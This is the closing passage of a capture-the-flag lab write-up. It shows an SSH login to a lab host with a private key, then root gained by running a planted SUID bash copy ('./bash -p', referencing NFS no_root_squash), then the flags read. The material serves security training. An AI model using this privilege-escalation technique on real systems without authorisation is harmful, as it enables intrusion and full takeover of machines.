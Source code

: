```bash
```

### SSH login & Priv Esc

```bash
$ ssh -i james_idrsa james@10.10.213.153

Last failed login: Thu May 20 19:02:18 BST 2021 on pts/0
There were 5 failed login attempts since the last successful login.
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145

[james@localhost ~]$ whoami
james

[james@localhost ~]$ ls
bash  user.flag

[james@localhost ~]$ hostname && whoami && cat user.flag 
localhost.localdomain
james
thm{REDACTED}

[james@localhost ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1# whoami
root
```

---

## Root Flag

```bash
bash-5.1# cd /root/

bash-5.1# ls 
root.flag

bash-5.1# hostname && whoami && cat root.flag 
localhost.localdomain
root
thm{REDACTED}
```

---

## References
- [HackTricks - NFS no_root_squash](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)
- [Port Forward/SSH Tunneling](https://guide.offsecnewbie.com/port-forwarding-ssh-tunneling)
- [Chisel](https://github.com/jpillora/chisel)